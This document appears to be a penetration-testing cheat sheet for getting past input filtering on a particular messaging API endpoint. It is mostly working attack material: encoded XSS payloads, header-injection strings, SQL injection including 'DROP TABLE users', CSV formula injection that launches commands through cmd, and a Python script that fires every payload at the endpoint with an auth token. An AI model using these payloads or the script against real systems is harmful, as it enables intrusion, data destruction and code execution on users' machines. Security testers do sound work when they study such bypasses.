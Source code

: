 # Bypass Techniques to Try

## 1. Encoding Bypasses

### URL Encoding:
- `%27` (single quote)  
- `%2C` (comma)  
- `%22` (double quote)  
- `%3C` (less than)  
- `%3E` (greater than)  
- `%28` (opening parenthesis)  
- `%29` (closing parenthesis)  

### Double URL Encoding:
- `%2527` (single quote)  
- `%252C` (comma)  
- `%2522` (double quote)  
- `%253C` (less than)  
- `%253E` (greater than)  

### HTML Entity Encoding:
- `&#39;` (single quote)  
- `&#44;` (comma)  
- `&#34;` (double quote)  
- `&#60;` (less than)  
- `&#62;` (greater than)  
- `&lt;` (less than)  
- `&gt;` (greater than)  
- `&quot;` (double quote)  
- `&amp;` (ampersand)  

### Unicode Encoding:
- `\u0027` (single quote)  
- `\u002C` (comma)  
- `\u0022` (double quote)  
- `\u003C` (less than)  
- `\u003E` (greater than)  
- `\u0028` (opening parenthesis)  
- `\u0029` (closing parenthesis)  

---

## 2. Content-Type Manipulation

Try different content types to bypass filtering:

Original request
Content-Type: application/json

Try these alternatives
Content-Type: application/x-www-form-urlencoded
Content-Type: multipart/form-data
Content-Type: text/plain
Content-Type: application/xml
Content-Type: text/xml


---

## 3. Case Variation & Mixed Encoding

Mixed case in headers
content-type: application/json
Content-TYPE: application/json
CONTENT-TYPE: application/json

Mixed encoding examples
%27%22 (single quote + double quote encoded)
%27%3C (single quote + less than)


---

## 4. HTTP Parameter Pollution

Try submitting multiple parameters
POST /ubs-comm/api/v1/messages
{"messageText":"test'","messageText":"<script>"}

Or use URL encoding
messageText=test'&messageText=<script>


---

## 5. Header Injection Bypasses

Try injecting in different headers
X-Forwarded-For: <script>alert(1)</script>
User-Agent: <script>alert(1)</script>
Referer: javascript:alert(1)
X-Custom-Header: <img src=x onerror=alert(1)>


---

## 6. Null Byte & Control Character Bypasses

- `%00<script>` (null byte)  
- `%0A<script>` (line feed)  
- `%0D<script>` (carriage return)  
- `%09<script>` (tab)  
- `%20<script>` (space)  

---

## 7. Unicode Normalization Bypasses

- `ʼ` (modifier letter apostrophe - U+02BC)  
- `ˈ` (modifier letter vertical line - U+02C8)  
- `′` (prime symbol - U+2032)  
- `＇` (fullwidth apostrophe - U+FF07)  
- `，` (fullwidth comma - U+FF0C)  

---

## 8. Using Only Available Characters

### SQL Injection with single quote:

{"messageText": "test' OR '1'='1"}
{"messageText": "test' UNION SELECT null,null,null--'"}
{"messageText": "test'; DROP TABLE users;--'"}


### CSV Injection with comma:

{"messageText": "=cmd|'/c calc'!A0,=cmd|'/c notepad'!A0"}
{"messageText": "@SUM(1+1)*cmd|' /C calc'!A0,test"}


---

## 9. Response Manipulation

Try intercepting and modifying the response:

// If client-side validation exists
// Modify JavaScript to allow special characters
// Or disable validation entirely


---

## 10. Comprehensive Testing Script

import requests
import urllib.parse

def test_bypasses():
base_payload = {"messageText": ""}
bypasses = [
# URL encoded
"%3Cscript%3E",
"%22%3Cscript%3E",

    # Double encoded  
    "%253Cscript%253E",
    "%2522%253Cscript%253E",
    
    # HTML entities
    "&lt;script&gt;",
    "&#60;script&#62;",
    
    # Unicode
    "\\u003Cscript\\u003E",
    
    # Mixed with allowed chars
    "'%3Cscript%3E",
    ",%3Cscript%3E",
    
    # Control chars
    "%00%3Cscript%3E",
    "%0A%3Cscript%3E",
    
    # Using only allowed chars for SQL
    "' OR '1'='1",
    "' UNION SELECT null--",
    
    # CSV injection
    "=cmd|'/c calc'!A0",
    "@SUM(1+1)*cmd|' /C calc'!A0"

for bypass in bypasses:
    payload = base_payload.copy()
    payload["messageText"] = bypass
    
    response = requests.post(
        "https://target.com/ubs-comm/api/v1/messages",
        headers={
            "X-Auth-Token": "YOUR_TOKEN",
            "Content-Type": "application/json"
        },
        json=payload
    )
    
    print(f"Payload: {bypass}")
    print(f"Status: {response.status_code}")
    print(f"Response: {response.text[:100]}")
    print("-" * 50)
test_bypasses()


---

## 11. Manual Testing Steps

- Test each encoding method systematically  
- Try different content-types with the same payload  
- Use Burp Decoder to create variations  
- Monitor responses for different error messages  
- Check if encoded payloads get decoded server-side  
- Test boundary conditions (very long payloads with allowed characters)  

---

Even with limited character acceptance, these bypass techniques can often circumvent client-side or basic server-side filtering. The key is **systematic testing of all encoding methods and edge cases**.
